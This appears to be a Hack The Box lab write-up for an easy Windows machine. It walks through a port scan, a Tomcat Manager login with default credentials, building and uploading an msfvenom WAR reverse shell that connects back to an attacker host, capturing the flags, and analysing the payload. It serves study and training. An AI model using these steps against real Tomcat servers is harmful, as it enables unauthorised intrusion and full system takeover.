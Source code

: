 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 10.10.10.95
```
- Only port **8080** is open.

### 🔍 Version Detection
```bash
nmap -sV -sC -p 8080 -oA nmap/initial 10.10.10.95
```
- Port 8080 runs [Tomcat](HTTP): `Apache Tomcat/Coyote JSP engine 1.1`.

---

## 🌐 [Web Discovery](HTTP)

### 🔑 Tomcat Manager Login
- Navigate to `http://10.10.10.95:8080`
- Default credentials work:
  ```text
  Username: tomcat
  Password: s3cret
  ```

- This provides access to the **Tomcat Manager Application**, including a WAR deployment section.

---

## 💣 Exploitation via WAR Upload

### ⚙️ Create Malicious WAR Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.XX LPORT=9002 -f war > rev_shell.war
```

### 🧪 Discover JSP Payload Name
```bash
jar -tf rev_shell.war
# Output includes: ppaejmsg.jsp
```

### 🛜 Serve WAR File
Upload via Tomcat Manager at:  
➡️ `http://10.10.10.95:8080/manager/html`

### 📡 Trigger Reverse Shell
On attacker:
```bash
nc -lnvp 9002
```

On target:
```bash
curl http://10.10.10.95:8080/rev_shell/ppaejmsg.jsp
```

Shell received:
```bash
whoami
# nt authority\system
```

---

## 🏁 Flags

```bash
cd C:\Users\Administrator\Desktop\flags
type 2\ for\ the\ price\ of\ 1.txt
```

**🎯 Output:**
```
user.txt: 7004dbce...
root.txt: 04a8b36e...
```

---

## 🔍 Beyond Root – War File Analysis

### 📦 WAR = ZIP
```bash
unzip -l rev_shell.war
```

### 🧾 Key Contents:
- `WEB-INF/web.xml`: servlet definition
- `ppaejmsg.jsp`: main reverse shell payload

### 🧠 JSP Breakdown:
- Hex-encoded executable written to disk
- Executed via `Runtime.getRuntime().exec()`
- On Linux: chmod +x before execution
- On Windows: just run `.exe`

### 🔄 Reverse Engineering the Binary
```bash
cat hex | xxd -r -p > rev_shell.exe
```

### 🧪 Test via Wine + tcpdump
```bash
wine rev_shell.exe
tcpdump -i any port 9002
```

Confirmed reverse shell behavior with **exponential backoff retry pattern**.

---

## ✅ Summary

| Phase               | Achievement                              |
|--------------------|-------------------------------------------|
| Recon              | Found Tomcat on port 8080                 |
| Exploit            | Gained SYSTEM shell via WAR upload        |
| User Flag          | Retrieved from Administrator desktop      |
| Root Flag          | Included in same text file as user        |
| Analysis           | Decompiled and verified WAR structure     |
